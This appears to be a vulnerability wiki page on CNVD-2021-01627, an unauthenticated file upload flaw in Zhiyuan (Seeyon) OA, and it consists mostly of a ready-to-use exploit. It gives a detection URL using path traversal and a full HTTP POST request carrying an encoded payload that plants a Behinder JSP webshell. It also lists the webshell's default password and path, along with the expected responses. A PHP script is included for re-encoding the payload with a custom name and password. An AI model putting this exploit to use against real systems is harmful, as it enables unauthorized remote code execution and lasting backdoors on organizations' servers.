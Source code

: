 # Zhiyuan OA ajax.do Upload any file CNVD-2021-01627

# Zhiyuan OA ajax.do Upload any file CNVD-2021-01627

## Vulnerability Description

Zhiyuan OA is a set of office collaborative management software. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA V8.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA V7.1, V7.1SP1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA V7.0, V7.0SP1, V7.0SP2, V7.0SP3</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA V6.0, V6.1SP1, V6.1SP2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA V5.x</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA G6</span>

## Vulnerability reappears

Determine whether there may be a vulnerability through request

```plain
/seeyon/thirdpartyController.do.css/..;/ajax.do
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-5.png)



Check whether the exception appears as shown in the picture above. If it exists, a vulnerability may occur.

```plain
出现异常：java.lang.NullPointerException:null
```

Then call the unauthorized file upload interface to upload the webshell file, and the request package is as follows

```html
POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: 127.0.0.1
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
loginPageURL=; login_locale=zh_CN;
Content-Type: application/x-www-form-urlencoded

managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00
```

```plain
冰蝎3 默认马pass : rebeyond
webshell地址: /seeyon/apps_res/addressbook/images/config.jspx
```

Success will return

```json
{
    "message":null,
    "details":null,
    "code":"0436821967"
}
```



Failure will return

```json
{
  "message": "被迫下线，原因：与服务器失去连接",
  "code": "-1",
  "details": null
}
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-7.png)



After uploading, request the webshell address. If the access return appears, it will be successfully written.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-6.png)



File encoding script, custom debugging by yourself

```php
<?php 
$webshell = urldecode("%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00");
$webshell = iconv("UTF-8","ISO-8859-1",$webshell);
$webshell = gzdecode($webshell);

/* 自行更改脚本自定义上传位置,webshell名字,冰蝎密码 */
$webshell = str_replace("../webapps/seeyon/apps_res/addressbook/images/config.jspx","../webapps/seeyon/apps_res/addressbook/images/config.jspx",$webshell);
$webshell = str_replace("config.jspx","config.jspx",$webshell);
$webshell = str_replace("e45e329feb5d925b","e45e329feb5d925b",$webshell);

$webshell = gzencode($webshell);
$webshell = iconv("ISO-8859-1","UTF-8" ,$webshell);
$webshell = urlencode("$webshell");
echo $webshell;

?>
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-10.png)